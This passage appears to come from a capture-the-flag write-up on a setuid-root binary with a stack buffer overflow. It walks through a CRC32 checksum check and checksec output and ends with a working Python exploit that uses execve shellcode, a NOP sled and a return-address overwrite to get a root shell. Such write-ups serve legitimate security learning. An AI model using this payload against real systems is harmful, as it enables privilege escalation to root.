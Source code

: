 I see that the main function:
1. creates a 100 character buffer
1. sets uid to 0 allowing us to escalate to root
1. prints pointers to main and the start of the buffer
1. reads the first four bytes from the message file into a 32 bit uint.
1. reads the remainder of the file into the buffer.
1. calculates the CRC32 of the buffer 
1. compares the CRC32 to the first four bytes read
1. if they are the same, prints a message, otherwise clears the buffer

The CRC32 of the example message must be correct because the program is printing out the sentence. I view the message in a hex editor on my machine:

```
$ base64 -d <<< MnU/5UNhbiB0aGUgbWFrZXIgcmVwYWlyIHdoYXQgaGUgbWFrZXM/ | xxd
00000000: 3275 3fe5 4361 6e20 7468 6520 6d61 6b65  2u?.Can the make
00000010: 7220 7265 7061 6972 2077 6861 7420 6865  r repair what he
00000020: 206d 616b 6573 3f                         makes?
```

Checking the CRC32 of the sentence myself, it's 0xe53f7532 - that matches apart from that it's stored in the file in little-endian format.

I load up the binary in GDB and see what mitigations it has:
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : ENABLED
RELRO     : Partial
```

Overall this looks like a typical stack-smashing vulnerability, where arbitrary input is being loaded into a static buffer; this allows us to overflow the buffer, overwrite the return address, and execute from any location we choose.

The constraints are: 
 - the buffer must be CRC32'd (but that's not hard)
 - there's no "win" function (but we can use shellcode)
 - due to ASLR the position of the stack changes each run (but it does print out the start address of the buffer)
 - we can't write exploits onto this container (but we can find a way around that)

After grinding away in GDB, I have the following working exploit locally. I see that the return address is stored 36 bytes after the end of the buffer; and had to be careful not to overwrite some of the nullbytes on this part of the stack with different values, or ironically it would cause the code that writes a nullbyte to the end of the buffer to miscalculate and segfault.

```python
import struct
import zlib

shellcode = b"\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"

buf  = b"\x90" * (100 - len(shellcode))
buf += shellcode
buf += b"\x00" * 36
buf += struct.pack('<Q', CHANGEME + 4)

crc = zlib.crc32(buf)
payload = struct.pack('<I', crc) + buf

with open('message', 'wb') as f:
    f.write(payload)
```

